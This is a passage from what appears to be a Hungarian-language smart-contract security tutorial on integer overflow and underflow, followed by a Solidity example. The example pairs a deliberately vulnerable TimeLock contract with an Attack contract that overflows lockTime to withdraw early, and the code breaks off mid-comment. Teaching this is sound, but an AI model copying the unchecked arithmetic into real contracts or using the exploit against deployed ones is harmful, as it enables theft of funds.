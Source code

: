 Az egész szám lefelé való túlfolyása hasonló okokból következik be: az aritmetikai művelet eredménye az elfogadható tartomány alá esik. Tegyük fel, Ön szeretné lecsökkenteni a `0` értéket egy `uint8` típusú mezőben, így az egyszerűen átfordul a maximális megjeleníthető értékre (`255`).

Mindkét irányú túlfolyás a szerződés állapotváltozóiban váratlan változásokat eredményezhet, így nem tervezett végrehajtást okozhat. Az alábbi példa bemutatja, hogyan tudja egy támadó kihasználni az aritmetikai túlfolyást egy okosszerződésben, hogy érvénytelen műveletet hajtson végre:

```
pragma solidity ^0.7.6;

// This contract is designed to act as a time vault.
// User can deposit into this contract but cannot withdraw for at least a week.
// User can also extend the wait time beyond the 1 week waiting period.

/*
1. Deploy TimeLock
2. Deploy Attack with address of TimeLock
3. Call Attack.attack sending 1 ether. You will immediately be able to
   withdraw your ether.

What happened?
Attack caused the TimeLock.lockTime to overflow and was able to withdraw
before the 1 week waiting period.
*/

contract TimeLock {
    mapping(address => uint) public balances;
    mapping(address => uint) public lockTime;

    function deposit() external payable {
        balances[msg.sender] += msg.value;
        lockTime[msg.sender] = block.timestamp + 1 weeks;
    }

    function increaseLockTime(uint _secondsToIncrease) public {
        lockTime[msg.sender] += _secondsToIncrease;
    }

    function withdraw() public {
        require(balances[msg.sender] > 0, "Insufficient funds");
        require(block.timestamp > lockTime[msg.sender], "Lock time not expired");

        uint amount = balances[msg.sender];
        balances[msg.sender] = 0;

        (bool sent, ) = msg.sender.call{value: amount}("");
        require(sent, "Failed to send Ether");
    }
}

contract Attack {
    TimeLock timeLock;

    constructor(TimeLock _timeLock) {
        timeLock = TimeLock(_timeLock);
    }

    fallback() external payable {}

    function attack() public payable {
        timeLock.deposit{value: msg.value}();
        /*
        if t = current lock time then we need to find x such that
        x + t = 2**256 = 0
```